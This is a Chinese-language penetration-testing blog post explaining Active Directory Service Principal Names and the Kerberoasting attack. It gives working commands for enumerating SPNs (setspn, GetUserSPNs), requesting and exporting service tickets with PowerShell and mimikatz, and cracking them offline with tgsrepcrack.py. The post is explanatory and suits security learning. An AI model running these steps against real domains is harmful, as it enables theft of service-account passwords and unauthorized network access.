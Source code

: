 ```yaml
---
title: SPN与内网渗透
date: 2019-05-01 13:56:25
tags:
- 内网渗透
categories: 内网渗透
---
```


# 前言

服务主体名称（SPN）是Kerberos客户端用于唯一标识给特定Kerberos目标计算机的服务实例名称。服务主体名称（SPN）是服务实例的唯一标识符。[Kerberos身份验证](https://docs.microsoft.com/zh-cn/windows/desktop/ad/mutual-authentication-using-kerberos)使用SPN将服务实例与服务登录帐户相关联。这允许客户端应用程序请求服务验证帐户，即使客户端没有帐户名。

根据微软的解释：可以创建两种类型的SPN：一种是基于主机的，另一种是任意的。在Active Directory中创建新计算机帐户时，将自动为内置服务生成基于主机的SPN。这些服务的示例包括HOST，LDAP和HTTP。实际上，SPN仅为HOST服务创建，所有内置服务都使用HOST SPN。但是，此实现是透明的，因为内置名称充当HOST服务的别名，除非它们已专门映射到Windows帐户。

<!--more-->

# SPN的意义及在redteam中的使用

## SPN的格式

```
serviceclass/host:port/servicename
```

说明：

**·** serviceclass可以理解为服务的名称，常见的有www, ldap, SMTP, DNS, HOST等。

**·** host有两种形式，FQDN和NetBIOS名，例如server01.test.com和server01。

**·** 如果服务运行在默认端口上，则端口号(port)可以省略。

eg：

```
TEST/pc-name.mydomain.com
MSSQLSvc/DC1.test.com
exchangeMDB/adsmsEXCAS01.adsecurity.org
```



## Kerberoast

### Kerberos协议认证

KDC包含AS、TGS

![](E:/images/Visio-KerberosComms.png)

简单来说，clinet要访问server或者服务，需要client向AS请求ticket，然后使用ticket请求TGS，KDC将分发响应的session_key给client和与之建立联系的server

对于4.tgs_reply，用户将会收到由目标服务实例的NTLM hash加密生成的TGS(service ticket)，加密算法为`RC4-HMAC`

站在利用的角度，当获得这个TGS后，我们可以尝试穷举口令，模拟加密过程，生成TGS进行比较。如果TGS相同，代表口令正确，就能获得目标服务实例的明文口令

### SPN 在身份验证过程中所起的作用

[以SQLSERVER为例子](<https://docs.microsoft.com/zh-cn/sql/database-engine/configure-windows/register-a-service-principal-name-for-kerberos-connections?view=sql-server-2017>)

当应用程序打开一个连接并使用 Windows 身份验证时， SQL Server Native Client 会传递 SQL Server 计算机名、实例名和 SPN（可选）。 如果该连接传递了 SPN，则使用它时不对它做任何更改。

如果该连接未传递 SPN，则将根据所使用的协议、服务器名和实例名构造一个默认的 SPN。

在上面这两种情况下，都会将 SPN 发送到密钥分发中心以获取用于对连接进行身份验证的安全标记。 如果无法获取安全标记，则身份验证采用 NTLM。

服务主体名称 (SPN) 是客户端用来唯一标识服务实例的名称。 Kerberos 身份验证服务可以使用 SPN 对服务进行身份验证。 当客户端想要连接到某个服务时，它将查找该服务的实例，并为该实例编写 SPN，然后连接到该服务并显示该服务的 SPN 以进行身份验证。

Windows 身份验证是向 SQL Server 验证用户身份的首选方法。 使用 Windows 身份验证的客户端通过 NTLM 或 Kerberos 进行身份验证。 在 Active Directory 环境中，始终首先尝试 Kerberos 身份验证。 Kerberos 身份验证不可用于使用命名管道的 SQL Server 2005 客户端。

### 域内的主机都能查询SPN

使用脚本查询SPN

SETSPN

```powershell
setspn -T pentestlab -Q */*
```

![](/images/setspn-service-discovery.png)

GetUserSPNs

```
powershell_import /root/Desktop/GetUserSPNs.ps1
```

![](/images/getuserspns-powershell-script.png)

```
cscript.exe GetUserSPNs.vbs
```

![](/images/getuserspns-vbs-script-cmd.png)

### 域内的任何用户都可以向域内的任何服务请求TGS

1. 请求TGS

   ```
   $SPNName = 'MSSQLSvc/DC1.test.com'
   Add-Type -AssemblyNAme System.IdentityModel
   New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPNName
   ```

2. 导出TGS

   ```
   kerberos::list /export
   ```

3. 暴力破解

   <https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py>

   ```
   ./tgsrepcrack.py wordlist.txt test.kirbi
   ```

   另一种利用方式参考：https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Kerberoasting/

# 总结

1.在 Active Directory 环境中，始终首先尝试 Kerberos 身份验证。如果使用IP或无法找寻SPN，将走NTLM协议。

2.SPN扫描发现资产，收集信息，快速定位存在可能脆弱的服务

3.破解TGS TICKETS

4.发现SPN是通过LDAP查询的

# 参考资料

<https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Kerberoasting/>

<http://www.cnblogs.com/backlion/p/8082623.html>

<https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/>

<https://pentestlab.blog/2018/06/04/spn-discovery/>

<https://pentestlab.blog/2018/06/12/kerberoast/>

<https://docs.microsoft.com/zh-cn/sql/reporting-services/report-server/register-a-service-principal-name-spn-for-a-report-server?view=sql-server-2017>

<https://docs.microsoft.com/zh-cn/windows/desktop/ad/service-principal-names>

<https://adsecurity.org/?p=3458>

